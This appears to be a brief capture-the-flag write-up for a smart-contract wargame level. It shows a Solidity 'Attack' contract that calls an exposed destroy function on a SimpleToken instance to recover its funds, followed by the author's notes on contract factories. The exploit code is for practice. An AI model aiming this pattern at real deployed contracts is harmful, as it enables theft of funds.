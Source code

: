 ## Description
Looked at etherscan Instance address, found the address of the deployed contract and wrote a script to destroy.
```
contract Attack {
    SimpleToken public simpltoken;

    constructor(address payable _simpletoken){
        simpltoken = SimpleToken(_simpletoken);
    }

    function attack(address payable addr) public {
        simpltoken.destroy(addr);
    }
}
```
I assume there are other ways to solve the problem. This level helped me to understand better how contract factories work via new and how to interact with created contracts. I was confused when I inserted an address created this way into Remix and looked at its methods, in this case the factory methods are displayed, not the contract itself.

I'll keep it for myself https://swende.se/blog/Ethereum_quirks_and_vulns.html